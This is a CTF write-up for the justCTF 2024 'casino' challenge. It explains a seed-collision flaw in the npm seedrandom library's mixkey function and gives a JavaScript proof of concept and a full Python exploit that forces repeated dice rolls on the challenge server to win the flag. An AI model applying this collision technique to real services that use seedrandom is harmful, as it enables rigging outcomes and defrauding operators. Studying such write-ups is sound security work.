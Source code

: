 Author: 0x6fe1be2

Version 19-06-24

# [justCTF 2024 teaser](https://ctftime.org/event/2342) (15.06-16.06)

## casino
Category: MISC, WEB

Points: 394 (7 Solves)

Teammates: lavish, kdm, profiluefter

> Although the odds of winning are rigged, this casino is 100% fair! Can you win against the house?
> + http://casino.web.jctf.pro
>  + https://s3.cdn.justctf.team/95d9162d-abfc-4aac-8aed-b30a4d90c773/casino_docker.tar.gz  

### TL;DR

the npm package `seedrandom` has a collision vulnerability in `mixkey(seed, key)`, that can be abused to generate collisions in the generated seeds. This is exploited to create reoccuring rolls

### Overview

The challenge is a simple node js application that allows us to register for an account an play dice against the server.

```
.
├── Dockerfile
├── app.js
├── casino_docker.tar.gz
├── docker-compose.yaml
├── package.json
└── static
    ├── home.html
    ├── index.html
    ├── js
    │   ├── dice.js
    │   ├── main.js
    │   └── provablyFair.js
    ├── login.html
    └── provably-fair.html
```

We start with a balance of 1000 and need to aquire:

![one billion dollars](https://external-preview.redd.it/zoHY8xZQBX1jP5x8ZokujiQTh9VfhJHfgjMf1gFBalM.jpg?auto=webp&s=5651d4db504fe41ae3344e3d8fcdf563a8c6057e)

this is infeasible by pure luck so lets look at the code (or scroll through the website `/provably-fair.html`):

```js
app.post("/bet", (req, res) => {
    ...
    
    if (typeof clientSeed != "string" || clientSeed.length != 64) {
        res.json({ "error": "Invalid client seed!" })
        return
    }
    
    ...

    let roll = (seedrandom(JSON.stringify({
        serverSeed: req.user.serverSeed,
        clientSeed,
        nonce: req.user.nonce++
    })).int32() >>> 0) % 6 + 1

    ...
});

```

this uses the values`req.user.serverSeed`, `clientSeed` and `req.user.nonce` to generate a object that is turned into string using`JSON.stringify` for each bet. Notable observation are:  

+ serverSeed is securely randomly generated (and not changed) and 64 bytes long
+ clientSeed is provided for the user for each bet and 64 bytes long
+ nonce starts at 0 and get's incremented for each bet


We can also see that the `seedrandom` package ([npmjs](https://www.npmjs.com/package/seedrandom)) is used to generate the random value and role. 

Looking through the source code and the closed issues we find some interesting stuff, notably: [ Strings consisting of a repeated pattern cause collisions #63 ](https://github.com/davidbau/seedrandom/issues/63) and even though this isn't the intended vulnerability it's a good indecator that the library might have more issues.


### Vulnerability

Let's look at the source code of seedrandom, and we quickly find this function:

[seedrandom.js](https://github.com/davidbau/seedrandom/blob/released/seedrandom.js#L179)

```js
...
function mixkey(seed, key) {
  var stringseed = seed + '', smear, j = 0;
  while (j < stringseed.length) {
    key[mask & j] =
      mask & ((smear ^= key[mask & j] * 19) + stringseed.charCodeAt(j++));
  }
  return tostring(key);
}
...
```

This is called using an empty list for `key` and the `seed` supplied from directly calling seedrandom. The mask value is `0xff` so basically a one byte mask. The code seems very basic and is not really trying to prevent any collision, but because it's kind of a big one liner it might not be easy to understand, so let's simplify it:

```js
...
function mixkey(seed, key) {
  var stringseed = seed + '';
  var smear = 0;
  var j = 0;
  while (j < 0x100 &&j < stringseed.length) {
	\\ smear is always 0 for first round
    key[mask & j] = mask & stringseed.charCodeAt(j);
    j++;
  }
  while (j < stringseed.length) {
  	smear ^= key[mask & j] * 19;
    key[mask & j] = mask & (smear + stringseed.charCodeAt(j));
    j++;
  }
  return tostring(key); \\ create 255 length string from byte array
}
...
```

as we can see the seed wraps arround after 0x100 characters and 'insecurly' combines the values, especially if we consider that `stringseed.charCodeAt(j)` can return values larger than 0x100.

so let's try to create collisions:

### PoC

this is a simple PoC code that creates collisions using our prefix (in this case we can just use any serverSeed) and a predictable suffix.

```js
const seedrandom = require('seedrandom')
mask = 0xff
prefix = '{"serverSeed":"24fc5b5e3a5bd0aa85b1cc9c116eef52feeed884676173bfd1d725741b213d33","clientSeed":"'
rands = crypto.randomBytes(0x100/2).toString("hex")
suffix1='","nonce":0}'
suffix2='","nonce":1}'
ssize = suffix1.length

a = prefix + rands + suffix1

let smear = 0

for(let i = 0; i < a.length-0x100-ssize; i++) 
  smear ^= (a.charCodeAt(i)*19) & 0xff

let inject = ''  
let csmear = smear

for(let i = a.length-ssize; i < a.length; i++){
  let j = 0
  smear ^= (a.charCodeAt(i-0x100)*19) & 0xff
  for(; j < 0x100; ++j){
    if(((a.charCodeAt(i)+smear)&0xff) == ((suffix2.charCodeAt(i-a.length+ssize)+(csmear^(j*19)))&0xff)) {
      break;
    }
  }
  
  if(j == 0x100)
    console.log('no solution')

  inject += String.fromCharCode(j)
  csmear ^= (j * 19) & 0xff
}

b = prefix + inject + rands.substring(inject.length) + suffix2

console.log(seedrandom(a).int32())
console.log(seedrandom(b).int32())

```

so now that we can create a collision there is only one remaining problem, for a wrap arround we need at least 0x100 (256) bytes and in order to align the predictable suffix with our user controlled value we need our user controlled value to be about 0x100 by itself, but it's limited to 64, so how do we do this?

### json.dumps vs JSON.stringify

JSON stringify actually escapes certain string, notably these:

```js
>> JSON.stringify('\0') \\ length 6
'"\\u0000"' 

>> JSON.stringify('') \\ length 2
'""' 
```

which we can use to increase the size of our client_seed to (and above) the desired length of 0x100.

Sadly i ran into an issue here, I wrote my exploit in python and hoped that `json.dumps` creates the same strings as `JSON.stringify`, which is not the case, and can easily be tested like this:

```js
for(let i = 0; i < 0x1000; i++)
  if(JSON.stringify(String.fromCharCode(i)).length != 3)
    console.log(i)
```

and for python

```python
import json
for i in range(0x100):
	if json.dumps(chr(i)) != 3:
		print(i)
```

notably all charcters after 0x7f are unicode escaped to 6 bytes in python, which is not the case for js.

so we just create a comparable list ourselves using this:

```python
printables = list(filter(lambda x: chr(x) not in ('"', '\\'), range(32, 0x1001)))
```

We can now combine all our techniques to write an exploit and get the flag.

### Exploit

Flag: `justCTF{n0_w4y__h0w_1ucky_4re_y0u??}`

<details>

```python
#!/usr/bin/env python3

import requests
import random
import string
import json
import subprocess


URL = 'http://casino.web.jctf.pro'
# URL = 'http://localhost:3030'

def gen_random(length: int, alphabet: str = string.ascii_lowercase) -> str:
  return ''.join(random.choices(alphabet, k=length))

def reg_user(session, username: str, password: str):
  data = {
    'username': username,
    'password': password
  }
  r = session.post(f'{URL}/register', data=data)
  
  assert r.status_code == 200


def get_info(session):
  return session.get(f'{URL}/info').json()


def bet(session, amount: int, guess: int, client_seed: str):
  data = {
    'bet': amount,
    'guess': guess,
    'clientSeed': client_seed
  }
  r = session.post(f'{URL}/bet', data=data)
  
  assert r.status_code == 200
  return r.json()

def mixkey(seed, key):
  mask = 0xff
  stringseed = seed + ''
  smear = 0
  j = 0
  while j < len(stringseed):
    smear ^= key[mask & j] * 19
    key[mask & j] = mask & (smear + ord(stringseed[j]));
    j += 1
  return ''.join(chr(x) for x in key);

printables = list(filter(lambda x: chr(x) not in ('"', '\\'), range(32, 0x1001)))

rands = list(gen_random(64))

i = 0
while (rsz := len(json.dumps(''.join(rands)))) != 0x102:
  if rsz < 0x102:
    i -= 1
    rands[i] = '\0'
  else:
    rands[i] = '"'

rands = ''.join(rands)
rands_stringify = json.dumps(rands)[1:-1]

def gen(n1=0, cnt=9, prefix='{"serverSeed":"24fc5b5e3a5bd0aa85b1cc9c116eef52feeed884676173bfd1d725741b213d33","clientSeed":"'):

  suffix1='","nonce":%d}' % n1
  outs = [rands]

  for i in range(1, cnt+1):
    suffix2 = '","nonce":%d}' % (n1 + i)
    assert len(suffix1) == len(suffix2)
    ssize = len(suffix1)

    a = prefix + rands_stringify + suffix1

    smear = 0

    for i in range(len(a)-0x100-ssize):
      smear ^= (ord(a[i])*19) & 0xff

    inject = ''  
    csmear = smear

    for i in range(len(a)-ssize, len(a)):
      j = 0
      char = -1
      smear ^= (ord(a[i-0x100])*19) & 0xff
      for j in printables:
        if(((ord(a[i])+smear)&0xff) == ((ord(suffix2[i-len(a)+ssize])+(csmear^(j*19)))&0xff)):
          char = j
          break;
      
      if(char == -1):
        print('no solution')
        exit(1)

      inject += chr(char)
      csmear ^= (j * 19) & 0xff

    clash = inject + rands[len(inject):]
    
    b = prefix + json.dumps(clash)[1:-1] + suffix2

    # print(a)
    # print(b)

    outs.append(clash)

  return outs

while True:
  username = gen_random(10)
  password = gen_random(12, alphabet=string.ascii_letters + string.digits)

  session = requests.Session()
  reg_user(session, username, password)

  guess = -1
  for s in gen(0):
    bet_data = bet(session, 100, guess if guess != -1 else 1, s)
    print(bet_data, end='\n')

    if guess == -1:
      guess = bet_data['roll']

  if bet_data['balance'] <= 1700:
    continue

  for i in range(10, 1000000, 10):
    guess = -1 
    for s in gen(i):
      bet_size = bet_data['balance'] // 4 if guess != -1 else 1
      bet_data = bet(session, bet_size, guess if guess != -1 else 1, s)
      print(bet_data, end='\n')

      if bet_data['balance'] < 1000:
        break 

      if guess == -1:
        guess = bet_data['roll']

      if bet_data['balance'] >= 1e9:
        r = session.get(f'{URL}/flag')
        print(r.text)
        exit(0)

    if bet_data['balance'] < 1000:
      break 

```

</details>

